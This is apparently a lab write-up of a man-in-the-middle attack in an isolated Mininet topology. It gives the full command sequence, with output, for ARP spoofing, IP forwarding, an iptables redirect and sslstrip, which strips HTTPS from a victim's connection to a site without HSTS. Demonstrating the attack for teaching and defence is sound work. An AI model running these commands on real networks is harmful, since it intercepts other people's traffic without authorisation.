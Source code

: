 ﻿# MITM over TLS

**Man-in-the-middle (MITM)** refers to an attack where an actor stands between 2 entities communicating with eachother and intercepts or even changes the information sent from one to another. When the traffic is not encrypted this attack can be done by doing an ARP spoofing and capturing the incoming traffic on the attacker's device. In the case of encrypted communication there is more into making the MITM attack possible.

In the following sections I will explain how to capture readable data sent between the victim's device and a website running over HTTPS that should normally be encrypted.

## Topology

In order to recreate this attack the following components were used:
* a victim machine (Ubuntu 18.04 with `curl` installed)
* a website (www.digi24.ro) that is using **HTTPS**
* an attacker machine (Ubuntu 18.04 with `tcpdump`, `arpspoof`, `iptables` and `sslstrip` installed)

The topology I created has the following details. The attacker and the victim both have Internet connection and are in the same network `192.168.16.0/24`:
* default gateway `192.168.16.1/24`
* attacker `192.168.16.2/24`
* victim `192.168.16.3/24`

> The website should be running on HTTPS, but should not have [**HSTS**](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security).

## How it's done

The end goal of this attack si to be able to intercept unencrypted data on the attacker's side. The data come from the communication between the victim and a vulnerable website using HTTP. It's vulnerability is that it is not using HSTS to prevent MITM attacks. The flow of the data will look as in the following image.

![enter image description here](https://scontent.fotp3-3.fna.fbcdn.net/v/t1.15752-9/56162869_565199757216898_7687985661634150400_n.png?_nc_cat=101&_nc_sid=b96e70&_nc_ohc=M1jRqWdq9xwAX_ZkELO&_nc_ht=scontent.fotp3-3.fna&oh=1049ba0ce6f2ac3a9d4a2643f58871e1&oe=5EE29D2E)

### Step 0

I start by capturing traffic on the attacker machine. I need the interface on the attacker's machine for this. This is `attacker-eth0` (known from when the topology was created). To check:
```bash
root@attacker:/# ifconfig
attacker-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 192.168.16.2  netmask 255.255.255.0  broadcast 0.0.0.0
ether 2e:a2:48:8e:ec:4b  txqueuelen 1000  (Ethernet)
RX packets 14  bytes 1096 (1.0 KB)
RX errors 0  dropped 0  overruns 0  frame 0
TX packets 0  bytes 0 (0.0 B)
TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
(..)
root@attacker:/# tcpdump -i attacker-eth0 -Z root -w capture.pcap &
[452]
```

The `capture.pcap` file will be analyzed at the end of the attack.

### Step 1

The next thing that needs to be done is to set the ip forwarding for the attacking machine so that when it receives packets from the victim packets will be forwarded to the destination IP address labeled on the network layer of the packet. For this I simply wrote value `1` in the following file:

```bash
root@attacker:/# echo 1 > /proc/sys/net/ipv4/ip_forward
root@attacker:/# cat /proc/sys/net/ipv4/ip_forward
1
```

### Step 2

The next step is to link the attacker’s MAC address with the IP address of the victim's computer. Once the attacker’s MAC address is connected to that IP address, the attacker will begin receiving any data that is intended for the victim. This is the step where the attacker places itself between the victim and the website.

To do this use I first need the IP addresses of the victim and the default gateway. These were specified when creating the topology, but in order to check I can use the following commands. 

```bash
root@victim:/# ifconfig
(..)
victim-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 192.168.16.3  netmask 255.255.255.0  broadcast 0.0.0.0
ether f6:b5:a9:73:f8:e1  txqueuelen 1000  (Ethernet)
RX packets 14  bytes 1096 (1.0 KB)
RX errors 0  dropped 0  overruns 0  frame 0
TX packets 0  bytes 0 (0.0 B)
TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
root@victim:/# ip r s
default via 192.168.16.1 dev victim-eth0
192.168.16.0/24 dev victim-eth0 proto kernel scope link src 192.168.16.3
```

The victim's IP address is `192.168.16.3`, while the default gateway is `192.168.16.1`.

Now the ARP spoofing can begin. I run `arpspoof` twice (so that I can capture both incoming and outgoing traffic). I do this on the attacker's machine.

```bash
root@attacker:/# arpspoof -i attacker-eth0 -t 192.168.16.3 192.168.16.1 > /dev/null 2> /dev/null &
[1] 59
root@attacker:/# arpspoof -i attacker-eth0 -t 192.168.16.1 192.168.16.3 > /dev/null 2> /dev/null &
[1] 60
```

Check on the victim's machine that the spoofing is taking place. The MAC addresses for both IPs should be the same. Since the attack takes place on layer 2 the interesting bits are the MAC addresses. 

```bash
root@victim:/# arp -a
? (192.168.16.1) at 2e:a2:48:8e:ec:4b [ether] on victim-eth0
? (192.168.16.2) at 2e:a2:48:8e:ec:4b [ether] on victim-eth0
```

Now the attacker sees all the communication between the victim and the Internet. Unfortunately, he still sees only encrypted traffic. I needed to do an HTTPS downgrade (or HTTPS stripping) so that on the attacker side I can see plain text traffic.


### Step 3

In order to intercept unencrypted traffic I needed to downgrade the victim's connection from HTTPS to HTTP. I did this using `sslstrip`. First I redirecting outgoing traffic on port 80 to 8080 and then I started `sslstrip` on port `8080`.


```bash
root@attacker:/# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080
root@attacker:/# sslstrip -l 8080

sslstrip 0.9 by Moxie Marlinspike running...

``` 

On the victim machine I used `curl` to send a `GET` request to `http://digi24.ro`.

```bash
root@victim:/# curl -vvv http://digi24.ro
* Rebuilt URL to: http://digi24.ro/
* Trying 81.196.8.46...
* TCP_NODELAY set
* Connected to digi24.ro (81.196.8.46) port 80 (#0)
> GET / HTTP/1.1
> Host: digi24.ro
> User-Agent: curl/7.58.0
> Accept: */*
>
< HTTP/1.1 301 Moved Permanently
< Content-Length: 162
< Server: RDS-WebServer v2
< Connection: close
< Location: http://www.digi24.ro/ # The request was redirected to this.
< Date: Fri, 15 May 2020 13:08:07 GMT
< Content-Type: text/html
<
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
* Closing connection 0
```

The request was redirected to `http://www.digi24.ro/`. Another `GET` on this URL returns the page content unencrypted. The attack is now complete: I can view unecrypted traffic going between the victim and the vulnerable website using HTTPS.

```bash
root@victim:/# curl -vvv http://www.digi24.ro/
(..)
<!-- END: "FrontendUiMain\View\Helper\WidgetLayoutLayoutBodyAssets" --></body></html>
```

###  Step 4

I stopped the tcpdump process on the attacker and I opened the capture using Wireshark. After filterin packets by protocol (only HTTP) I found the following:

![enter image description here](https://scontent.fotp3-2.fna.fbcdn.net/v/t1.15752-9/s2048x2048/98279780_257285382296503_6574269155376103424_n.png?_nc_cat=106&_nc_sid=b96e70&_nc_ohc=J441EsDrXKUAX8T6FYF&_nc_ht=scontent.fotp3-2.fna&oh=81452735d759a9c62dbd954ba2977a7a&oe=5EE27E26)

By following the HTTP stream here I was able to see the contents of the website the same way the victim does.

![enter image description here](https://scontent.fotp3-2.fna.fbcdn.net/v/t1.15752-9/s2048x2048/98367350_241217873641263_5746737680239034368_n.png?_nc_cat=105&_nc_sid=b96e70&_nc_ohc=5qwHL8uwFTIAX_Xz0IY&_nc_ht=scontent.fotp3-2.fna&oh=3e4e3d08207905910865171fb7db2ea6&oe=5EE5AAC5)

## Archive contents

The archive contains the following:
* ***MITM over TLS.pdf*** this file containing explanations on how the attack is done.
* ***Dockerfile*** used to build docker images for both the victim and attacker (both of the machines have the exact same configuration).
* ***Makefile*** that runs the `docker build` command.
* ***capture.pcap*** is the capture containing the traffic generated during this attack.
* ***topology.py*** script to start the Mininet topology used for this attack.
* ***start-attacker.sh*** script used to connect to the attacker machine.
* ***start-victim.sh*** script used to connect to the victim machine.
* ***install.sh*** used to install Mininet (taken from the CDCI labs topology).
* ***start-app.sh*** runs on docker to prevent the container from exiting (taken from the CDCI labs topology).
* ***run-on-attacker.sh*** to run on the attacker machine. Does the ARP spoofing and SSL stripping.
* ***run-on-victim.sh*** to run on the victim machine. Generates HTTPS traffic.



